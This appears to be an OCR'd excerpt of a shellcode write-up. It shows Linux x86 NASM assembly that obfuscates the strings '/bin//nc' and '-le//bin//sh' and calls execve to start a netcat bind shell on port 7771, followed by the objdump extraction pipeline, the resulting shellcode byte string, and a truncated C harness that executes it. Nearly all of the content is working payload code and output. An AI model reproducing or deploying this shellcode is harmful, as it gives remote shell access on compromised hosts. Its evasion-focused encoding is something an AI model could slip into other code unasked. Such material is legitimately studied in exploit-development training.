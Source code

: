 ```asm
    mov eax, 0x68732f2f
    push eax
    add eax, 0x5f63301
    sub eax, 1
    push eax
    sub eax, 0x3f03f602
    push eax
    ; mov dword [esp - 4], 0x68732f2f
    ; mov dword [esp - 8], 0x6e69622f
    ; mov dword [esp - 12], 0x2f656c2d
    ; sub esp, 12
    ; push 0x68732f2f     ;-le//bin//sh
    ; push 0x6e69622f
    ; push 0x2f656c2d
    mov edi, esp

    push edx
    ; push eax
    ; push 0x636e2f2f     ;/bin//nc
    ; push 0x6e69622f
    add eax, 0x3408c302
    push eax
    add eax, 0xafb3301
    sub eax, 1
    push eax
    mov ebx, esp
    mov eax, edx

    push edx
    push esi
    push edi
    push ebx
    mov ecx, esp
    mov al,11
    int 0x80
```

Compile, test and calcule the %:

```bash
$ nasm -f elf32 netcat.nasm -o netcat.o
$ ld netcat.o -o netcat
$ objdump -d ./netcat|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc2\x50\xc7\x44\x24\xfc\x37\x37\x37\x31\xc7\x44\x24\xf8\x2d\x76\x70\x31\x83\xec\x08\x89\xe6\x50\xb8\x2f\x2f\x73\x68\x50\x05\x01\x33\xf6\x05\x83\xe8\x01\x50\x2d\x02\xf6\x03\x3f\x50\x89\xe7\x52\x05\x02\xc3\x08\x34\x50\x05\x01\x33\xfb\x0a\x83\xe8\x01\x50\x89\xe3\x89\xd0\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```bash
$ cat netcat-new.c 
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] =
"\x31\xc0\x89\xc2\x50\xc7\x44\x24\xfc\x37\x37\x37\x31\xc7\x44\x24\xf8\x2d\x76\x70\x31\x83\xec\x08\x89\xe6\x50\xb8\x2f\x2f\x73\x68\x50\x05\x01\x33\xf6\x05\x83\xe8\x01\x50\x2d\x02\xf6\x03\x3f\x50\x89\xe7\x52\x05\x02\xc3\x08\x34\x50\x05\x01\x33\xfb\x0a\x83\xe8\x01\x50\x89\xe3\x89\xd0\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length: %d\n",strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
```